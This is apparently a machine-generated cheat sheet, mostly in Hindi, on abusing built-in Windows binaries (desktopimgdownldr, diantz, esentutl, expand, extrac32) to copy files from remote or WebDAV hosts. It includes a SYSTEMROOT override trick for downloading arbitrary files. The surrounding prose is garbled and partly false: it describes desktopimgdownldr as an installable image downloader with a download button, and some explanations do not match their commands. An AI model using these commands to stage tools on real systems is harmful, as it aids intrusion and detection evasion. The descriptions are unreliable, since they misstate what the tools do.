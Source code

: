 यह एक प्रोग्राम है जिसका उपयोग डेस्कटॉप पर स्थापित छवियों को डाउनलोड करने के लिए किया जाता है। इसे चलाने के लिए निम्नलिखित चरणों का पालन करें:

1. इस प्रोग्राम को डाउनलोड करें और अपने सिस्टम पर स्थापित करें।
2. प्रोग्राम को खोलें और डेस्कटॉप पर डाउनलोड करने के लिए छवि का URL दर्ज करें।
3. डाउनलोड करने के लिए "डाउनलोड" बटन पर क्लिक करें।
4. छवि सफलतापूर्वक डाउनलोड हो जाएगी और आपके डेस्कटॉप पर सहेजी जाएगी।

ध्यान दें कि यह प्रोग्राम केवल उचित और अनुमति प्राप्त स्रोतों से छवियों को डाउनलोड करने के लिए उपयोग करना चाहिए। किसी अनधिकृत स्रोत से छवियों को डाउनलोड करने का प्रयास करने से बचें।
```
set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```
Diantz.exe
```
diantz.exe \\remotemachine\pathToFile\file.exe c:\destinationFolder\file.cab
```
यह एक Windows उपकरण है जो Extensible Storage Engine (ESE) डेटाबेस फ़ाइलों को प्रबंधित करने के लिए उपयोग होता है। इसका उपयोग डेटाबेस की संरचना को जांचने, मरम्मत करने, और डेटाबेस फ़ाइलों को संपीड़ित करने के लिए किया जा सकता है। यह उपकरण एक कमांड लाइन आधारित उपकरण है और कई विभिन्न स्वरूपों में उपयोग किया जा सकता है।

इसका उपयोग करने के लिए, आपको एक कमांड प्रॉम्प्ट खोलना होगा और `esentutl.exe` को उचित स्विच के साथ चलाना होगा। इसके बाद, आप विभिन्न कार्रवाईयों को कर सकते हैं, जैसे कि डेटाबेस की संरचना की जांच करना, डेटाबेस को मरम्मत करना, डेटाबेस फ़ाइलों को संपीड़ित करना, और अन्य संबंधित कार्रवाईयाँ।

यह उपकरण एक पेंटेस्टर के लिए उपयोगी हो सकता है जो विभिन्न डेटाबेस फ़ाइलों को जांचने और मरम्मत करने के लिए व्यापक निरीक्षण करना चाहता है।
```
esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
```
## Expand.exe

`Expand.exe` एक Windows सुविधा है जो एक फ़ाइल या फ़ोल्डर को विस्तारित करने के लिए उपयोग की जाती है। यह फ़ाइलों को उनके संपीड़न रूप में पुनर्स्थापित करने के लिए उपयोग किया जा सकता है।

इसका उपयोग करने के लिए, निम्नलिखित कमांड का उपयोग करें:

```plaintext
expand <source_file> <destination_file>
```

यहां `<source_file>` विस्तारित करने के लिए फ़ाइल का पथ और नाम है, और `<destination_file>` विस्तारित फ़ाइल का नया पथ और नाम है।

उदाहरण के लिए, यदि आप `C:\archive.cab` फ़ाइल को `C:\extracted` फ़ोल्डर में विस्तारित करना चाहते हैं, तो निम्नलिखित कमांड का उपयोग करें:

```plaintext
expand C:\archive.cab C:\extracted
```

यह कमांड `C:\archive.cab` फ़ाइल को `C:\extracted` फ़ोल्डर में विस्तारित करेगी।
```
expand \\webdav\folder\file.bat c:\ADS\file.bat
```
एक्सट्रैक32.exe
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```
`findstr.exe` is a command-line tool in Windows that is used to search for specific strings or patterns in files. It supports regular expressions and can search for strings in multiple files simultaneously. The tool is commonly used by pentesters and system administrators for various purposes, such as finding sensitive information, identifying configuration files, or searching for specific patterns in log files.
